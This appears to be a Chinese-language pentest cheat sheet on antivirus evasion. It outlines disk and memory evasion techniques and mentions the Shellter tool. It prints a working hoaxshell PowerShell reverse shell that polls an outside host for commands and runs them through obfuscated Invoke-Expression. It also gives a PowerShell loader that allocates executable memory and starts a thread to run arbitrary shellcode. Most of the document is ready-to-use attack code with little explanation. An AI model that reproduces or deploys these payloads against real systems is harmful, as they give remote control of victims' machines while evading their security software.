 # AV Evasion

## 免杀技术分类

### 硬盘免杀

- 打包
- 混淆
- 加密
- 软件保护

### 内存免杀

- 远程进程注入
- 反射DLL注入
- 进程挖空技术（process hollowing）
- 内连挂载技术（inline hooking）

## shellter

shellter是一个动态的反向TCP/UDP连接的shellcode注入工具，它可以将shellcode注入到Windows可执行文件中，使其免杀。

但是要windows环境

## hoaxshell

<https://github.com/t3l3machus/hoaxshell>

A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.

```powershell
$s='172.16.8.130:8080';$i='bf987f35-a12cc336-7e35106c';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/bf987f35 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a12cc336 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=i'e'x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7e35106c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

## curl

## powershell

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);   
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
//导入 kernel32.dll 中的 VirtualAlloc、CreateThread  
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
// 导入 msvcrt.dll 中的 memset
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;                         // 变量 $sc 保存 shellcode
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);                  //使用VirtualAlloc分配一块内存
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};    //使用 memset 函数将 shellcode 写入新分配的内存中
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };           //使用 CreateThread 创建新的进程，执行内存中的 shellcode
```
